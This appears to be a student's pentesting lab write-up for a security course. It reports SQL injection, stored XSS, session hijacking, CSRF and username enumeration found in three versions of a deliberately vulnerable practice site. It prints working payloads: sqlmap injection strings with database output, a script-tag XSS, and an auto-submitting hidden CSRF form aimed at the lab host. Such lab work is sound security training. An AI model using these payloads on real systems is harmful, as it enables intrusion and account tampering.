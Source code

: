 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi

Blue site vulnerable to SQLi. Using sqlmap utility, with endpoint "/blue/public/salesperson.php?id=1", results:
sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4778=4778 AND 'jfPB'='jfPB

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: id=1' OR SLEEP(5)#
---
```

After inject point was found, DB tables and sensitive data was exposed from all 3 of the sites (red/blue/green):

```
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

For instance, using sqlmap to probe globitek_blue tables, we find:

```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+
```

![Gif of 5](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/5.gif?raw=true)

Vulnerability #2: IDOR

GIF:




## Green

Vulnerability #1: Cross-site Scripting
    Green site is vulnerable to stored XSS attacks. Any user can submit feedback to the admin of the site, and the feedback is not properly sanitized.
    Submitting a form with comment like
    ```
    <script>alert('XSS attack');</script>
    ```
    we can demonstrate the effect when the admin views it from their browser (seen below):

![Gif of 6](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/6.gif?raw=true)

Vulnerability #2: Session Hijacking / Fixation
Green site allows sessions to be a year old, and never regenerates the session ID, even when the user agent string changes. This makes it vulnerable to both session hijacking and session fixation attacks.  This is demonstrated by opening two browser instances. In the first, we will log in as an admin. We will then discover the session id using the provided tool, and give and set it to browser 2. With this id, browser 2 can bypass the login process. Uh-oh!

![Gif of 9](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/9.gif?raw=true)


## Red

Vulnerability #1: Cross Site Request Forgery

    The red site doesn't need a CSRF token to carry out admin-level work, such as editing a user's profile. By creating a hidden form that is automatically submitted (without notifying the user of submission results), we can be stealthy. For example, by using a hidden form which will not display submission results, we can send a POST request by linking it to a logged in admin. In this example, I've linked the malicious form to the admin through the "contact us" page.
    
    ```
    <html><body onload="document.bank_form.submit()"><form action="https://35.184.242.122/red/public/staff/users/edit.php?id=4" method="POST" name="bank_form" style="display: none;" target="hidden_results" ><input type="text" name="first_name" value="MALICIOUSALTEREDVALUE"/><input type="text"/></form> <iframe name="hidden_results" style="display: none;"></iframe> </body> </html>
    ```

![Gif of 8](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/8.gif?raw=true) 

Vulnerability #2: Username Enumeration

    The red site is vulnerable to username enumeration, because attempting to login too many times will lock out the account from trying for x minutes. This is prompt confirms that the username exists in the system (accounts that do not exist will not throw this error message after 3 attempts)


![Gif of 7](https://github.com/jonkillinger/FacebookCyberSecurityCourseWeek8/blob/master/7.gif?raw=true)



## Notes

Describe any challenges encountered while doing the work
